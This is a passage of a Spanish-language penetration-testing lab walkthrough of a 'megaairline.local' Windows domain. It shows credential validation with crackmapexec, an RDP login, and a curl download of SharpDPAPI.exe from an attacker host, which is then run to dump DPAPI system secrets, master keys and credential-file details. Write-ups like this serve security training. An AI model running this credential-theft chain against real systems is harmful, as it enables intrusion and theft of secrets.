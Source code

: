 ```powershell
PS C:\ProgramData>
```

```bash
❯ crackmapexec smb ms01.megaairline.local -u elliot -p LetMeInAgain! --local-auth 
SMB         ms01.megaairline.local 445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:MS01) (signing:False) (SMBv1:False)  
SMB         ms01.megaairline.local 445    MS01             [+] MS01\elliot:LetMeInAgain!
```

```powershell
❯ xfreerdp /u:elliot /p:LetMeInAgain! /v:ms01.megaairline.local /dynamic-resolution /cert:ignore  
```

Usaremos SharpDPAPI nuevamente para extraer la contraseña del usuario "Administrator" en MS01. Es importante tener en cuenta que es probable que esta contraseña sea válida solo a nivel local en el equipo MS01.

```powershell
PS C:\Users\elliot.MS01\Desktop> curl 192.168.11.6/SharpDPAPI.exe -o SharpDPAPI.exe
PS C:\Users\elliot.MS01\Desktop> .\SharpDPAPI.exe machinetriage

  __                 _   _       _ ___
 (_  |_   _. ._ ._  | \ |_) /\  |_) |
 __) | | (_| |  |_) |_/ |  /--\ |  _|_
                |
  v1.11.3


[*] Action: Machine DPAPI Credential, Vault, and Certificate Triage

[*] Elevating to SYSTEM via token duplication for LSA secret retrieval
[*] RevertToSelf()

[*] Secret  : DPAPI_SYSTEM
[*]    full: 487772FBFFEDCCD08B08239AF25F7C42A0C2AB7636CBEDE3241336B34893574F96C27A7411F18A6C
[*]    m/u : 487772FBFFEDCCD08B08239AF25F7C42A0C2AB76 / 36CBEDE3241336B34893574F96C27A7411F18A6C  

[*] SYSTEM master key cache:

{236ba6f2-6d51-4312-beb2-365eb2897601}:E9AB8AB7568ABEEA751B1D5B4A8C14A682DE5CC4
{6af669bc-5e57-413c-ba26-6d63fb62c794}:78EF352E05532ADF635D9AFEEC839B96E99601A6
{b88476d3-b611-4e16-be7f-8525fb5dcd4f}:14F7A4B882D7D01EDF4C9015E10868649F58D159
{bd0e6c0c-1301-4c56-90f0-4dd4504dc8ce}:F2FBB1F90F09F29D7B20D4366BCE33C9B439CC81
{c21c474c-ad42-425f-babf-623340194247}:451EE9B8011CEF62A3404F44A64B2ACD93CD9FDB
{360b584f-7027-4f23-85ad-b13720f57979}:58B9072F514E39AB9036140775FA34FE852924E4
{b0724227-4609-4b11-81ad-4694b3e3e947}:C5CCE9487809C753C814848080BF1DD16985B509
{e85f73ce-4638-49bf-a1b2-984e0be4890b}:1C834ECB6C3DC3502001A4974DDF46E01141FDDF
{f52cb0ce-0f39-422a-bff2-68b49e60beb5}:11D1FB8FB59C7E18C8600959C13DF23FE22C8ADE

[*] Triaging System Credentials

Folder       : C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials

  CredFile           : 7E6A4CF66305FBFB5B060CD27A723F46

    guidMasterKey    : {360b584f-7027-4f23-85ad-b13720f57979}
    size             : 576
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32782 (CALG_SHA_512) / 26128 (CALG_AES_256)
    description      : Local Credential Data

    LastWritten      : 10/14/2020 10:33:07 AM
    TargetName       : Domain:batch=TaskScheduler:Task:{A7499C51-AB7C-44BF-9314-6A305239E450}
    TargetAlias      :
    Comment          :
```